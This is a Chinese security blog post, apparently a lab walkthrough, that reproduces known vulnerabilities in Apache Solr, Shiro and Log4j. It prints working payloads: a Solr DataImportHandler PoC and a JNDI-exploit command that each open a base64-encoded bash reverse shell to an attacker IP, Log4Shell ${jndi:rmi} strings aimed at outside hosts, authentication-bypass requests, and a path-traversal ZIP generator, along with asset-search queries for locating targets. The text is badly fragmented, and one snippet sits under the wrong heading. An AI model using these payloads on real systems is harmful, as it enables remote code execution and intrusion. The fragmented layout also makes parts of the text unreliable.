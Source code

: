 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk3NTIyOTA0OQ==&mid=2247485223&idx=1&sn=7cadef856d0360ed2983ea9bd473a955

#  Solrs搜索&Shrio鉴权&Log4j日志&CVE历史漏洞  
原创 朝阳  泷羽Sec-朝阳   2025-07-13 13:26  
  
# Solr：（Vulfocus复现）  
  
  
主要基于HTTP和Apache Lucenne实现的全文搜索服务器  
  
#  
Solr  
：  
(  
Vulfocus  
复现  
)  
  
主要基于HTTP和  
Apache  
Lucene  
实现的全文搜索服务器。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Solr  
  
黑盒特征：图标及端口  
8393  
## 1、远程命令执行漏洞（CVE-2019-0193）  
  
Apache  
Solr  
5.0.0  
版本至  
8.3.1  
  
https  
://  
github  
.  
com  
/  
jas502n  
/  
solr_rce  
  
D  
:  
\  
Python27  
\python  
.  
exe solr_rce  
.  
py http  
://  
123.58.236.76  
:  
50847  
 id  
  
这里使用kali进行RCE  
  
python2 solr_rce.py http  
://  
123.58.236.76  
:  
50847  
 id  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHibYOP9BoWouwa0h8uUj2uMMicIP2ibaCdTWItWQLotTEVAOPnBETHxlsA/640?wx_fmt=png&from=appmsg "")  
  
打开环境就是这样一个环境，然后该漏洞对Solr服务版本有要求  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH31upllzYcGib1tBUz2ntzrWuicUxJuLJ0fW6BspkZE3N9uanxM1bXbcQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHtp7SU7IgqhLa1icxrPJDt8ztnGqHw9q4MUE6Kc52ZVPtH6p7iaWsvxUQ/640?wx_fmt=png&from=appmsg "")  
  
执行成功，这里要注意一定要确保环境配置正确，并且使用python2环境去运行  
## 2、远程命令执行漏洞(CVE-2019-0193)  
  
Apache  
Solr  
<  
8.2.0  
版本  
  
https  
://  
vulhub  
.  
org  
/  
#  
/  
environments  
/  
solr  
/  
CVE  
-  
2019  
-  
0193  
/  
  
条件  
1  
：  
Apache  
Solr  
的  
DataImportHandler  
启用了模块  
DataImportHandler  
(  
默认不会被启用  
)  
  
条件  
2  
：  
SolrAdmin  
 UI未开启鉴权认证。（默认情况无需任何认证）  
  
选择已有核心后选择  
Dataimport  
功能并选择debug模式，更改填入以下POC，点击  
Execute  
withthis  
Confuguration  
  
POC：  
  
<dataConfig>  
  
<  
dataSource type  
=  
"URLDataSource"  
/>  
  
<script>  
<!  
[  
CDATA  
[  
  
function poc(){java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjEyOS82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}");  
  
}  
  
]]  
></  
script  
>  
  
<document>  
  
<  
entity name  
=  
"stackoverflow"  
  
url  
=  
"https://stackoverflow.com/feeds/tag/solr"  
  
processor  
=  
"XPathEntityProcessor"  
  
forEach  
=  
"/feed"  
  
transformer  
=  
"script:poc"  
/>  
  
</  
document  
>  
  
</dataConfig>  
  
这里我们要注意关键命令在于这段代码，base64解密一下  
  
YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3LzU1NjYgMD4mMQ==  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHIqGU4E42hlXxZlxGPpF5tDykLvpiaoxvMice9mYMBVzt5t8YSicPvxfFA/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHDUUD0mmOh5R1ljiaHYicZcH487xzCrPLxlygjBDlbu1IicHL5lvHcghiag/640?wx_fmt=png&from=appmsg "")  
  
因此我们构造一下这个反弹shell的ip端口即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHN2ObL22ZnKTleYBPFtDWnibbeSrTOqNW52eZOMgian1DUDsAVALu907w/640?wx_fmt=png&from=appmsg "")  
  
然后点击下面的执行蓝框即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH5e8bL2nzUucH5iaianc1vVxZvW7aBFpEBvWkpOOhOKpYjNOMJW2uibVicA/640?wx_fmt=png&from=appmsg "")  
## 3、认证绕过漏洞（CVE-2024-45216）  
  
参考：https  
://  
mp  
.  
weixin  
.  
qq  
.  
com  
/  
s  
/  
Ke3hzJ2iGSekrsFpZV263w  
  
关键点：GET   
/  
solr  
/  
admin  
/  
info  
/  
properties  
:/  
admin  
/  
info  
/  
key  
  
漏洞版本：  
  
  
5.3.0 <= Apache Solr < 8.11.4  
  
    9.0.0 <= Apache Solr < 9.7.0  
  
资产测绘：  
  
app=  
"APACHE-Solr"  
  
POC：  

```
GET /solr/admin/info/properties:/admin/info/key 
HTTP/1.1Host: XXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHGIzcd00rd77ib4AyKwFLm1icfMwt90tRjbKmfgJMocicMSuic8Kek7gTWw/640?wx_fmt=png&from=appmsg "")  
## 4.文件上传路径遍历漏洞（CVE-2024-52012）  
  
参考：https  
://  
mp  
.  
weixin  
.  
qq  
.  
com  
/  
s  
/  
uYGLIcu0VUA3sB6heBUBrg  
  
#  
Shiro  
：  
(  
本地源码复现  
)  
  
Java  
安全框架，能够用于身份验证、授权、加密和会话管理。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Shiro  
  
黑盒特征：数据包cookie里面rememberMe  
  
范围：  
6.6 - 9.7.0  
  
POC:  

```
import zipfile

# 创建ZIP文件并添加文件
with zipfile.ZipFile('0.zip', 'w') as zipf:
    zipf.writestr(&#34;0.txt&#34;, &#34;hello world, 0&#34;)
    zipf.writestr(&#34;../a.txt&#34;,&#34;hello world&#34;)
    zipf.writestr(&#34;../a.class.&#34;,&#34;class test&#34;)
```

# Shiro：(本地源码复现)  
  
Java  
安全框架，能够用于身份验证、授权、加密和会话管理。鉴权用的。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Shiro  
  
黑盒特征：数据包cookie里面rememberMe  
## 1、CVE_2016_4437 Shiro-550+Shiro-721  
  
影响范围：  
Apache  
Shiro  
<=  
1.2.4  
  
工具箱利用项目搜哈  
  
这里如果我们登录返回admin page，登陆失败返回please login！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHSUxssgCtwyK1eQRcxD5YHpC7ticvdzn3szGFojsKjJKicNic3D0qCYaZA/640?wx_fmt=png&from=appmsg "")  
  
这里无论怎么访问都是这个页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHfqwWg9Kdjon4rlq5rEvJTqWKkYtkyXTYze2tSRrpwxcSJwcscMFklw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHeAGWjQGiaP2wf5eeM4vucHiack8Q6hRGwTvODfO9Sea3Jx9d1G9IIjfA/640?wx_fmt=png&from=appmsg "")  
  
这里后面加上%20即可绕过  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHzBgnCf1WM6AGxGaelicV7omziaViaicEbCBtTtcSGwpXyoFeN2JfH5icuXw/640?wx_fmt=png&from=appmsg "")  
## 2、CVE-2020-11989  
  
Poc  
：  
/  
admin  
/%  
20  
  
影响范围：  
ApacheShiro  
<  
1.7.1  
## 3、CVE-2020-1957  
  
Poc  
：  
/  
xxx  
/  
..;  
/  
admin  
/  
  
影响范围：  
ApacheShiro  
<  
1.5.3  
## 4、Shiro-721RCE  
  
shiro-721 代码执行  
### 漏洞特征  
  
漏洞利用原理，反序列化的aes密钥key   
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHtyTHC20vyLZxykZGw0WwNGQoG7iaCDqH1OicK2MjeWP27mqdG1AAQfZw/640?wx_fmt=png&from=appmsg "")  
  
请求包发送后响应包带有rememberMe字样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHkF78yvy2Au2fClic4Oac3E5nD6vWwgVzqaXOFt1wR5yyUvUlhA0cb5g/640?wx_fmt=png&from=appmsg "")  
  
返回包时也会带有rememberMe字样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH2hYfv6dl8ZE4Ic4fnWNdqzTrEUPafYmr3KwA2PFribWBPcFfD38t4Hw/640?wx_fmt=png&from=appmsg "")  
### 漏洞利用  
  
这里我们登陆成功后会带有我们的密钥key，使用工具检测一下，然后就能构造人命令了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHI6SDRDicVO0BkG9icgIcJuPs3SBvk8gFoNnmwduqJ8W4keRywYTRP2Wg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHxiaNBvH6o8aiafW1HydgYYU3cnwc20hE3eamyjcNHc2ZxroF9ichAU9Yw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHPPiapL7QEJIlfqLZU1wmXKaQUgeibf6tLymYC5yYc1bzOEfawvnd0n5Q/640?wx_fmt=png&from=appmsg "")  
  
然后使用命令执行功能即可  
# Log4j：(Vulhub和本地源码复现)  
  
Apache  
的一个开源项目，是一个基于  
Java  
的日志记录框架。  
  
历史漏洞：https  
://  
avd  
.  
aliyun  
.  
com  
/  
search  
?  
q  
=  
Log4j  
  
黑盒特征：  
  
红队盲打，将payload插入到任何地方   
  
会问蓝队攻击特征（$  
{  
jndi  
:  
rmi  
:/  
//osutj8}）  
## 1、Log4j2远程命令执行（CVE-2021-44228）  
  
漏洞影响的产品版本包括：  
  
Apache  
Log4j2  
2.0  
-  
2.15.0  
-  
rc1  
  
1  
、生成反弹  
Shell  
的JNDI注入  
  
jjava -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjE1Mi85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.66.152  
  
工具构造Paload  
  
2、POC  
  
http://192.168.66.152:8983/solr/admin/cores?action=${jndi:rmi://192.168.66.152:1099/i9gdvn}  
  
这里使用log4j加密工具  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHaHF5vLMou1qpGnamGxCQX0F3JLhdUKicxel4vKHiciaC1efRsBTbbGs4A/640?wx_fmt=png&from=appmsg "")  
  
${jdni:ldap://127.0.0.1:50389/50470e}}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHwibCvgBuEBVNWzeZyM0fHakeFZBPye6HGXBdd1fT12LuMxBp6dxwgCA/640?wx_fmt=png&from=appmsg "")  
  
这里vulhub启动一个log4j的漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHHbHWHjkxXGicqznpSeMiaEdPCOltQDiaZMkdU868QVLpDB4EgJ0Rh4JIg/640?wx_fmt=png&from=appmsg "")  
  
这里进行一个base64的编码，因为要做jndi注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHoTfBgMs2Z81UNbibxZYCwRCUDO9zAFZ9FVvA7zdXKPS2BzcM2jmlQdA/640?wx_fmt=png&from=appmsg "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMH9UXk8uyrzWsrbYicb4pwXE0krlKiaIUncW29fpoQpIA2ibPjOribNmK9QA/640?wx_fmt=png&from=appmsg "")  
  
这里就生成了jndi的恶意注入  

```
http://ip:8983/solr/admin/cores?action=${jndi:rmi://172.18.0.1:1099/vfchso}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0uC0SYTQa8azKh0gBJYKMHxVxNxt4rVbNKKB3gQeEdQIqXUicquL9exdggZyZz7zN97TR10CPIUTA/640?wx_fmt=png&from=appmsg "")  
  
这里就监听到了  
  
这里一定注意，jndi注入需要jdk低版本，高版本不适应，需要去学习高版绕过  
  
jdk版本过高、没有漏洞会、不出网造成无法注入  
  
2  
、构造JNDI注入  
Payload  
提交  
  
$  
{  
jndi  
:  
rmi  
://  
47.94.236.117  
:  
1099  
/  
osutj8  
}  
  
%  
24  
%  
7  
b  
%  
6  
a  
%  
6  
e  
%  
64  
%  
69  
%  
3  
a  
%  
72  
%  
6d  
%  
69  
%  
3  
a  
%  
2f  
%  
2f  
%  
34  
%  
37  
%  
2  
e  
%  
39  
%  
34  
%  
2  
e  
%  
32  
%  
33  
%  
36  
%  
2  
e  
%  
31  
%  
31  
%  
37  
%  
3  
a  
%  
31  
%  
30  
%  
39  
%  
39  
%  
2f  
%  
6f  
%  
73  
%  
75  
%  
74  
%  
6  
a  
%  
38  
%  
7d  
  
  
